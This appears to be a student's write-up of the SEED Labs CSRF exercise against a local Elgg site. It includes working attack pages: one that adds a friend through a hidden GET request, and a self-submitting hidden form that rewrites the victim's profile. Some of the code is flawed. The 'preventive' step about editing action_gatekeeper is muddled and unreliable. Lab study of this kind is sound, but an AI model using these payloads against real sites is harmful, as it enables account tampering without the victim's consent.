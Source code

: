 # Cross site Request Forgery 

## Summary

#### Condition 
* Victim is logged in to the vulnerable website. 
* Attacker does social engineering, and victim has opened the attacker's website in the same browser. 

#### What happens ? 
* The attacker's website sends a HTTP request to the vulnerable website.  
* The request,technically, has the same origin as that of the victim website.Victim's browser is tricked and attaches the cookie alongwith the request. 
* Attacker is able to send the request to the vulnerable website on victim's behalf. 

## Useful Links:
* Seedlab Tasks, http://www.cis.syr.edu/~wedu/seed/Labs_12.04/Web/Web_CSRF_Elgg/Web_CSRF_Elgg.pdf
* https://www.acunetix.com/websitesecurity/csrf-attacks/

## Seedlab Tasks:
Note : Students should create HTML pages and host them locally. Instructions about this is given in the PDF. 

#### Task 1 : CSRF attack using GET Request: Adding friends

```html
<html>
<body>
<h1> Hello World ! </h1>
<img src="http://www.csrflabelgg.com/action/friends/add?friend=42">
</body>
</html>
```

#### Task 2: CSRF attack using POST request:Changing Profile 
Note : This is a draft script. It has few issues. 

```html
<html>
<body>

<h1>Hello World test two ! </h1>


<script type="text/javascript">
   function post(url,fields)
   {
  //create a <form> element.
   var p = document.createElement("form");
   //construct the form
   p.action = url;
   p.innerHTML = fields;
   p.target = "_self";
   p.method = "post";
   //append the form to the current page.
   document.body.appendChild(p);
   //submit the form
   p.submit();
   }

function csrf_hack()
   {
   var fields;
   var victim_id=elgg.page_owner.guid;
   // The following are form entries that need to be filled out
   // by attackers. The entries are made hidden, so the victim
   // won’t be able to see them.
   fields += "<input type=’hidden’ name=’name’ value=’Samy’/>";
   fields += "<input type=’hidden’ name=’description’ value=’Samy is my Hero’ />";
   fields += "<input type=’hidden’ name=’accesslevel[description]’ value=’2’ />";
   fields += "<input type=’hidden’ name=’briefdescription’ value=’hello world /’>";
   fields += "<input type=’hidden’ name=’accesslevel[briefdescription]’ value=’2’/>";
   fields += "<input type=’hidden’ name=’location’ value=’’ />";
   fields += "<input type=’hidden’ name=’accesslevel[location]’ value=’2’ />";
   fields += "<input type=’hidden’ name=’guid’ value=’39’ />";
   var url = "http://www.csrflabelgg.com/action/profile/edit";
   post(url,fields);
  }

// invoke csrf_hack() after the page is loaded.
window.onload = function() { csrf_hack();}
</script>

</body>
</html>

```

## Preventive Measures: 
* Maintaining secrect token in the vulnerable page. 

* In Elgg (SeedLab), go to elgg/engine/lib/actions.php, and in Function action_gatekeeper, just comment out the "return true" statement. 
